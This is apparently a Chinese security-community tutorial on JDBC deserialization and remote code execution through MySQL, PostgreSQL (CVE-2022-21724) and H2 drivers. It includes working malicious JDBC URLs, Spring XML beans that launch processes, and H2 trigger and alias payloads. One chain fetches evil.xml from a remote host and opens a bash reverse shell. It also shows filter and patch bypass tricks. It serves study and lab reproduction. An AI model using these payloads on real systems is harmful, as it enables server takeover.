# JDBC反序列化漏洞：从原理到实战的多数据库RCE利用解析-先知社区

> **来源**: https://xz.aliyun.com/news/18822  
> **文章ID**: 18822

---

对于JDBC反序列化，这是个老演员了，从DataEase、SmatrBI等多个数据可视化分析平台来看JDBC往往是重灾区。反序列化、表达式、JNDI注入是Java安全的三板斧，同时也是可以拉开Java代码审计人群的核心竞争力。  
本文就来学习一下这个JDBC反序列化怎么玩。

## JDBC反序列化认识



各类数据库为了供上层Java Application使用，开了一个接口出来，为了管理这些接口，Java设计了JDBC，应用程序通过JDBC调用接口来同数据库交互。

如上图所示，这便是JDBC的由来。

JDBC的基本用法如下：

```
 public static void main(String[] args) throws Exception{         
    String DB_URL = "jdbc:mysql://127.0.0.1:3306/sectest?var=value";        
    Driver driver = new com.mysql.jdbc.Driver();  
    //Make a database connection         
    Connection conn = driver.connect(DB_URL, props);        
    Statement stmt = conn.createStatement(ResultSet.TYPE_SCROLL_SENSITIVE,….); 
} 
```

朴实无华的连接为什么会造成反序列化呢？这我们就得谈一谈它的连接参数了。



* autoDerserialize：反序列化时用来自动检测是否存在BLOB字段
* detectCustomCollations：如果为true，DriverManager会再每次建立连接时从服务器获取实际的字符集/排序规则。
* queryInterceotirs：在Query执行前后插入一次操作来影响结果。

​

为什么说到这三个参数呢？因为通过这三个参数，我们可以让其走反序列化的路子。

数据库为8.x版本时，指定`queryInterceotirs`参数为`com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor`，它就会走这个拦截器，然后进行相应的反序列化。

数据库为5.x版本时，指定`detectCustomCollations`为true，也会触发一定的逻辑，进行相应的反序列化。

​

这里我不去debug跟一下过程了，很复杂，也没必要。

由此，就有了老生常谈的两条链：

* detectCustomCollatons链
* ServerStatusDiffInterceptor链

其实就是以这两个类为入口去触发反序列化。

下面看一下过程：



跟进`ResultSetUtil.resultSetToMap()`方法。



判断是否开启`autoDeserialize`，开启了直接进行反序列化，不开启则返回`data`。这里的`data`是从mysql服务器传来的。

  
那由此我们可以总结如下结论：

**若攻击者能控制JDBC连接设置项，则可以通过设置其配置指向恶意mysql服务器触发**`ObjectInputStream.readObject()`**，构造反序列化利用链从而造成RCE。**

这里有个关键点，mysql的jdbc反序列化需要本地存在Gadget。

**只要JDBC连接的URL可控，并且<=8.0.20，本地存在Gadget就有可能RCE！**

可以做一个简单的漏洞环境，结合Java-Chains测试一下。

```
<dependency>
  <groupId>org.apache.commons</groupId>
  <artifactId>commons-collections4</artifactId>
  <version>4.0</version>
</dependency>

<dependency>
  <groupId>mysql</groupId>
  <artifactId>mysql-connector-java</artifactId>
  <version>8.0.15</version>
</dependency>
```

```
package com.test;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class test12 {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        //Class.forName("com.mysql.cj.jdbc.Driver");
        String DB_URL = "jdbc:mysql://127.0.0.1:3308/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=def63e1";
        Connection connection = DriverManager.getConnection(DB_URL);
    }
}
```

使用Java-Chains生成CCK2弹计算器。



修改入口`user`为`def63e1`。



成功弹出计算器。

## Mysql JDBC反序列化不出网怎么打

在去年某次阿里云先知沙龙上，@yulate和@m4x 提出了一种JDBC反序列化不出网的打法。以前我们需要mysql\_fakeServer来做为支持，不出网的时候直接歇菜了。但是此次议题提出不出网的打法后，不管是在CTF还是在real world中遇到时都有了一定的应对之策，但是利用条件相对苛刻。

我起初在看议题PPT的时候，有诸多不解，“所有实现了socketFactory接口的类都可以指定为一个连接方式”是什么意思？



后来我在《山石安服｜JDBC-MySQL驱动不出网攻击总结》以及《小白安全 | Mysql JDBC 不出网利用方式》文章中，理清了这一点。

出网打JDBC的原因在于fake server远程发送了一个恶意的数据包回来，那换个思路来想，如果不出网，那是不是应该JDBC在本地上找到这个数据包去读？

基于这个思路，我们来翻一下Mysql的驱动，找一下`socketFactory`这个接口。

> SocketFactory 是 Java 中用于创建 网络套接字（Socket） 的工厂类，主要用于建立网络连接。在 JDBC 连接数据库时，SocketFactory 的作用是定义如何创建与数据库服务器的底层 TCP/IP 连接。



该接口，有两个具体的实现值得注意，同时也是议题ppt中重点标注的。

默认使用的`socketFactory`是StandardSocketFactory，用来向外界建立TCP/IP连接。

于是就通过NamedPipeSocketFactory来替代TCP/IP的Socket通信方式，其实本质上就是不通过Socket，通过文件管道流通mysql服务器进行交互。

  
NamedPipeSocketFactory#connect支持用户配置`namedPipePath`。

这里注意：

* 在Windows上使用NamedPipe: \\.\pipe\MySQL
* 在Linux上使用NamedPipe: mkfifo /tmp/MySQL

如果不使用默认的NamedPipepth，而用户自己配置了`namedPipePath`，后续使用`NamedPipeScoket`读取输入。



读取整个文件流的作用在于用其作为与服务器连接的IO通道。

> 本地驱动可以通过文件IO的方式与Mysql Server进行交互。

那现在的目标就是如何设置这个`namedPipePath`，跟进这个参数由来，发现其是在`Property`中可以通过jdbc的url配置的。



因此这里可以指定`path`或者`namedPipePath`为我们恶意的流量数据包，当其被驱动转化为流后可以造成不出网的命令执行。

利用方式如下：

  
起初我自己通过wireshark抓包构造数据包出现包过大的情况，我以为是我自己的问题，于是我改用的是发现者公开仓库中的恶意数据包但还是出现这种包过大的情况，那这....，不能解决包过大问题用起来也太鸡肋了吧？

后面发现者又给出了通过将恶意数据包伪装成恶意图片的方式进行上传，因为很多上传点位于后台，对于审计前台洞来说，利用也苛刻。

除此之外，发现者还利用Spring web下的文件上传缓存机制，进行上传恶意数据包，确实也是一条路，但实际操作起来可能很困难，这里就不做复现及研究了。

~~（ps：当然我是不会放弃这种手法的，只不过现在的这个能力，我还不会去学写临时文件，因为以现在的认知来说，我恐怕理解不了。）~~

说实话，光是复现第一种，就花了我好久的时间都没成功，包过大可能是我操作的问题，在wireshark抓包的时候多抓了包，还是有很多要学习的地方啊。

总结一下，JDBC不出网的姿势吧，如果面试问到可以这样说：

J**DBC不出网的打法，关键有如下几点：**

1. **目标JDBC的URL完全可控**
2. **可以上传恶意流量数据包到目标服务器上，并且知道绝对路径**
3. **目标支持文件流作为IO通道同数据库交互**
4. **对执行查询数据包大小的限制不能太小**

## PgJDBC 反序列化漏洞

PostgreSQL号称“世界上最先进的开源关系型数据库”。pgsql在22年爆出来了一个洞，即CVE-2022-21724，影响版本为 9.4.1208 <= PgJDBC <= 42.2.25和 42.3.0 <= PgJDBC <= 42.3.2。

参考奇安信攻防社区《PostgreSQL JDBC Driver RCE（CVE-2022-21724）与任意文件写入漏洞利用与分析》来复现学习这个漏洞。

首先从宏观上面知道这个漏洞的产生原因。

该洞可以利用socketFactory和socketFactoryArg来传入一个类并实例化，然后其构造函数是可控的，我们可以寻找到spring框架中的如下两个类来进行利用。

```
org.springframework.context.support.ClassPathXmlApplicationContext

org.springframework.context.support.FileSystemXmlApplicationContext
```

构造形如：  
`jdbc:postgresql://node/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http:127.0.0.1/poc.xml`的payload来引入恶意的xml文件进行利用。

```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="test" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{test.start()}"/>
    </bean>
</beans>
```

下面进行复现：



那疑问点就在于为什么解析了个xml就能触发rce了呢？  
在16行打上断点进去看看。

首先会进行一步对传入的url的解析。

解析完会后返回一个urlProps



随后带着url以及props进行建立连接



调用PgJDBC自己的连接器进行连接，这里注意pyaload中socketFactory被指定为`org.springframework.context.support.ClassPathXmlApplicationContext`。这是为什么呢？



下面不着急debug了，先学会为什么利用到这个类。~~（我想到哪扯到哪）~~

在《ClassPathXmlApplicationContext利用链 有参构造对象RCE打法》一文中，我了解到了这个类的用法。

> CLassPathXmlApplicationContext是Spring框架中的一个重要类，用于加载应用程序的上下文配置。它从类路径中读取XML配置文件，并根据该配置文件创建和管理Spring的bean。它的构造函数接收一个String类型的路径参数，支持`http://`、`file://`、`ftp://`、`classpath:`等多种协议。

将一个bean用xml来表示如下图所示：



使用ClassPathXmlApplicationContext进行加载。



既然ClassPathXmlApplicationContext支持对xml进行类转换，那就有了如下的操作手法。



将java.lang.ProcessBuilder转化为xml，再使用ClassPathXmlApplicationContext进行加载。



对于这个ClassPathXmlApplicationContext的用法，我在本文中不过多去写，下一篇文章会专门去学习它的用法，以及不出网的利用姿势。

回过头来，我们继续debug。当触发连接时，会来到`org.postgresql.core.v3.ConnectionFactoryImpl#openConnectionImpl`。这个类中会获取SocketFactory工厂类。

  
这个工厂类是可以在url中控制的，传入参数为socketFactory。

  
如果不指定socketFactory，则会使用默认的工厂类，并继续执行逻辑。

如果指定了工厂类，就会实例化这个工厂类，并且可以传入其构造函数的参数。这里构造函数的参数也是可以在url中控制的，参数为socketFactoryArg。



​

那由之前我们分析的，这里的`socketFactory` 和`socketFactoryArg` 可控，我们就可以寻找到是spring框架中的如下两个类来进行利用。

```
org.springframework.context.support.ClassPathXmlApplicationContext
org.springframework.context.support.FileSystemXmlApplicationContext
```

FileSystemXmlApplicationContext是ClassPathXmlApplicationContext的“兄弟”，一个读本地，一个读远程。

FileSystemXmlApplicationContext可以用来不出网去打，这里先不分析这一块，后面会专门根据它来写一篇文章。

使用这一部分的主角ClassPathApplicationContext来打，我们知道其构造函数初始化的时候会对内部的xml转化为bean，并且支持http协议。这里的`socketFactoryArg` 可以作为其构造函数的参数并且外部可控，我们完全可以指定这个参数为远程http服务器，并且在上面放置恶意的xml，就可以实现RCE。

我们的PgJDBC反序列化正是基于这种思路进行的。

此外对于PgJDBC还存在任意写的漏洞，这个我将在下面一篇文章来写。

## H2 Database如何RCE？（JDK环境）

H2 Database是一个纯Java编写的关系型数据库，可以在内存中运行，通常用在小型的应用，或者单元测试中。有带你类似sqlite的角色，但因为它是纯java的，跨平台使用更加方便。

初识h2，一片迷茫，随即我在p牛的[《扒一扒h2database远程代码执行》](https://www.leavesongs.com/PENETRATION/talk-about-h2database-rce.html)中摸清了前进的道路。

关于环境的搭建可以参考这篇文章：[Spring Boot 整合使用 H2 内存数据库](https://springdoc.cn/spring-boot-h2-database/)

### H2 Database未授权

H2 Database自带一个web管理页面，如果设置了如下配置则会就会导致任意用户访问web管理页面。

```
//这个就是设置启用还是禁用web管理界面
spring.h2.console.enabled=true

//这个就是设置是否允许外部用户进行访问管理界面，并不通过身份验证
spring.h2.console.settings.web-allow-others=true
```

当然，它的校验机制只是判断是否是回环地址访问，这里如果目标系统如果有SSRF的话还是有操作空间的。



如上，校验机制在`org.h2.server.web.WebServlet#allow`。

### H2 Database 未授权打JNDI

本地配了CC4的Gadget，使用Java-Chain生成链子，打本地LADP反序列化。



成功弹出计算器。

本质原因还是在于`org.h2.util.JdbcUtils#getConnection`传入一个参数，未做限制，造成JNDI注入。

这里的根据195行，还需要指定var0为`java.naming.Context`，其实就是指定通过JNDI建立连接。

  
这个JNDI注入到2.0.206被修复了，但是还是存在一些问题。

### H2 Database未授权sql绕过rce

这里直接谈谈CVE-2022-23221。

自1.4.198后，漏洞的利用将会收到`FORBID_CREATION=TRUE`补丁的影响。攻击者需要找到目标服务器上一个已经存在的数据库后才能利用。

> 官方补丁：  
> ifExists设置默认为true。  
> 当ifExists等于true时，则执行databaseUrl += ";FORBID\_CREATION=TRUE";，意味着在连接字符串后面增加一个新的属性FORBID\_CREATION，值为TRUE，即禁止创建数据库。

只需要用将分号转义即可绕过，至于原理是什么我们不用去深究。payload如下：

```
jdbc:h2:mem:test;MODE=MSSQLServer;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    java.lang.Runtime.getRuntime().exec("calc.exe")
$$;AUTHZPWD=\
```



此外这里需要补充一下对H2 Database的认识：H2支持内存`mem:`和文件`file:`两种模式，常用内存`mem:`来配合RCE。

### H2 JDBC连接处URL可控的打法

在[狗师傅的博客](https://fushuling.com/index.php/2025/06/23/%e4%bb%8e%e9%9b%b6%e5%bc%80%e5%a7%8b%e7%9a%84h2_jdbc_bypass%e4%b9%8b%e6%97%85/)中我学会了一些新的H2 JDBC打法。出网我不介绍了，既然有不出网的姿势，为什么还要去学出网的。

H2 JDBC在连接的时候，支持通过设置`INIT`参数去在数据库初始化时执行SQL语句注入恶意逻辑。

这个sql语句的格式如下：

```
CREATE ALIAS EXEC AS $$
void shellexec() throws java.io.IOException {
    // Java代码...
}
$$;
CALL EXEC();
```

基本的用法如下：



知道这一点，就可以使用java-chains生成链子随便去打了。

让java-chains生成加载字节码的payload去弹计算器。



成功弹出计算器。

如果目标为高版本JDK，则需要绕过module的限制，这里参考[《漫漫安全路 | DataEase 远程代码执行漏洞分析》](https://mp.weixin.qq.com/s/PlRwbc5AhJDjPwIZcUv5Rw)就行。



### H2 Database如何RCE？（仅存在JRE）

这里有个问题，JDK环境和JRE环境是什么意思？  
JDK中存在`javac`，可以用来把`.java`源文件编译成字节码，理论上JDK中是自带JRE用来运行字节码文件的。

但是如果不存在`javac`，仅有JRE，那当我们传入的是未编译的Java源代码时，将会造成报错的。如果版本低一些，我们可以接触java的动态特性，比如js引擎来继续构造payload。如下：

```
jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON
INFORMATION_SCHEMA.TABLES AS $$//javascript
java.lang.Runtime.getRuntime().exec('cmd /c calc')
$$
```

那如果版本再高一些呢？jdk15之后就没有js引擎了，该如何破局？  
@X1r0z 大佬在他的博客中分享了一种法子：[H2 RCE 在 JRE 17 环境下的利用](https://exp10it.io/2025/03/h2-rce-in-jre-17/)

大佬的利用方式使用`CREATE ALIAS`来直接引用已知的Java静态方法，并且这个过程是不需要`javac`命令的。

利用Spring的ReflectUtils反射调用ClassPathXmlApplicationContext的构造方法来远程加载恶意xml并将其中的恶意代码实例化。

```
CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)';
CREATE ALIAS NEW_INSTANCE FOR 'org.springframework.cglib.core.ReflectUtils.newInstance(java.lang.Class, java.lang.Class[], java.lang.Object[])';
CREATE ALIAS UNESCAPE_VALUE FOR 'javax.naming.ldap.Rdn.unescapeValue(java.lang.String)';

SET @url_str='http://host.docker.internal:8000/evil.xml';
SET @url_obj=UNESCAPE_VALUE(@url_str);
SET @context_clazz=CLASS_FOR_NAME('org.springframework.context.support.ClassPathXmlApplicationContext');
SET @string_clazz=CLASS_FOR_NAME('java.lang.String');

CALL NEW_INSTANCE(@context_clazz, ARRAY[@string_clazz], ARRAY[@url_obj]);
```

```
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[bash -i >& /dev/tcp/host.docker.internal/4444 0>&1]]></value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

此外，如果不是spring环境，则可以使用cb链+commons-io去写文件。

## 一些bypass的手法

### bypass空格限制

  
如上所示，如果限制空格，则可以使用绕过replaceAll替换空格。



### bypassTRUE限制

对于true，可以改写为True

  
还可以将true改写为yes



此外还可以进行url编码绕过：

  
  
如果强制增加`autoDeserialize=false`，则可以通过注释进行绕过。



### bypassINIT

h2自动小写转大写，而“ı”转成大写后等于“I”。“ſ”大写后变成“S”。


